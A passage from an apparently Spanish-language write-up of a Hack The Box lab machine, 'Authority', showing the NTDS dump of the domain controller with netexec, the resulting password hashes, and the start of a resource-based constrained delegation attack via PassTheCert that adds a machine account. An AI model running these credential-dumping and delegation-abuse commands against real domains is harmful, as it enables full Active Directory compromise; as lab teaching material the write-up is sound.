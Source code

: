 ```bash
❯ nxc smb 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' --ntds
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! 
SMB         10.10.11.222    445    AUTHORITY        [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         10.10.11.222    445    AUTHORITY        [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.11.222    445    AUTHORITY        Administrator:500:aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed:::
SMB         10.10.11.222    445    AUTHORITY        Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.11.222    445    AUTHORITY        krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
SMB         10.10.11.222    445    AUTHORITY        svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1:::
SMB         10.10.11.222    445    AUTHORITY        AUTHORITY$:1000:aad3b435b51404eeaad3b435b51404ee:addf932778c269fb8c1a60e722569258:::
SMB         10.10.11.222    445    AUTHORITY        [+] Dumped 5 NTDS hashes to /home/kali/.nxc/logs/AUTHORITY_10.10.11.222_2025-02-22_090440.ntds of which 4 were added to the database
SMB         10.10.11.222    445    AUTHORITY        [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.10.11.222    445    AUTHORITY        [*] cat /home/kali/.nxc/logs/AUTHORITY_10.10.11.222_2025-02-22_090440.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.10.11.222    445    AUTHORITY        [*] grep -iv disabled /home/kali/.nxc/logs/AUTHORITY_10.10.11.222_2025-02-22_090440.ntds | cut -d ':' -f1
```

### Nº3 PrivEsc - Resource-based Constrained Delegation (RBCD Attack) trough PassTheCert Authentication

En este caso, implementamos un ataque **RBCD (Resource-based Constrained Delegation)** para escalar privilegios. A través de **PassTheCert**, comenzamos creando un nuevo equipo dentro del dominio, lo que nos permite posteriormente aprovechar las delegaciones restringidas de recursos. Para esto, usamos el siguiente comando para añadir un equipo al dominio y asignarle una contraseña:

Este comando añadió con éxito una cuenta de máquina llamada **rbcd\_gzzcoo$** al dominio **authority.htb**, lo cual es el primer paso en la explotación de la delegación de recursos. El siguiente paso sería configurar la delegación para que esta máquina pueda ser utilizada en el ataque RBCD, lo que nos permitiría acceder a los recursos del dominio o a los servicios delegados con mayores privilegios.

```bash
❯ python3 /opt/PassTheCert/Python/passthecert.py -action add_computer -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222 -computer-name 'rbcd_gzzcoo$' -computer-pass 'Gzzcoo123'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account rbcd_gzzcoo$ with password Gzzcoo123.
```
